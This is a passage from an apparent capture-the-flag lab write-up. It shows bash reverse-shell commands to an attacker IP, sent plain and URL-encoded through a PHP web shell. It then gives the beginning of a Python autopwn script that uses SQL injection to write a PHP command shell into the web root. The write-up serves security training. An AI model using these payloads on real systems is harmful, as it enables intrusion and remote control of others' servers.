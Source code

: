 We didn’t get a reverse shell. Maybe because it is not URL-Encoded? Let’s try it:

`http://10.129.85.205/ws.php?cmd=bash -i >%26 %2Fdev%2Ftcp%2F10.10.14.234%2F443 0>%261`

Same results. In cases like this one, sometimes it’s necessary to execute the command like this:

`http://10.129.85.205/ws.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.234/443 0>&1"`

But URL-Encoded:

![Untitled](images/Untitled%2027.png)

Another way to gain access would be to script an autopwn in python like this one and executing it:

```bash
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) !=3:
    log.failure("Uso: %s <ip-address> filename" %sys.argv[0])
    sys.exit(1)

# Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url="http://%s/" % ip_address
lport = 443

def createFile():

    data_post = {
        'username' : 'whatever',
        'country' : """'UNION SELECT "<?php system($_REQUEST['cmd']); ?>" into outfile '/var/www/html/%s' -- -""" %(filename)
    }

    r = requests.post(main_url, data=data_post)

def getAccess():
    data_post = {
```